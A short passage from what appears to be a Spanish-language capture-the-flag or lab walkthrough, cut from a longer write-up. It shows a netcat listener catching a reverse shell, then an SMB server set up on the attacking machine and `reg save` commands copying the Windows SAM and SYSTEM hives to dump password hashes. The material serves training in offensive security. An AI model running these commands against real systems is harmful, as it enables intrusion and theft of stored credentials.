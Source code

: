 Antes de ejecutar lo anterior debemos ponernos a la escucha con `ncat`  en otra terminal

```java
❯ rlwrap ncat -lnvp 443
```

¡Vamos! tenemos una shell

![20231031175159.png](20231031175159.png)

### Dumping

- Para transferir archivos y dumpear los hashes de la `sam` haremos lo siguiente:

- Primero Vamos a montarnos un servicio `smb` en nuetra maquina atacante.

```java
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```

- Segundo Hacemos una copia de la `sam` y `system`

```java
C:\Users\Administrator\Desktop>reg save hklm\system system
C:\Users\Administrator\Desktop>reg save hklm\sam sam
```

![20231031175539.png](20231031175539.png)
